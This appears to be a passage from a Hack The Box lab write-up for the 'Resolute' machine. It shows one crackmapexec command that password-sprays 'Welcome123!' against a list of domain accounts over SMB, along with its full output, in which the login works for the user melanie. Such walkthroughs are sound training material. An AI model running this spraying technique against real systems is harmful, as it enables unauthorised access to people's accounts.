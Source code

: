 ### Password Spraying with crackmapexec

```
kali@kali:~/htb$ crackmapexec smb 10.129.96.155  -u resolute_users -p 'Welcome123!' --continue-on-success
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\simon:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\naoki:Welcome123! STATUS_LOGON_FAILURE 
```
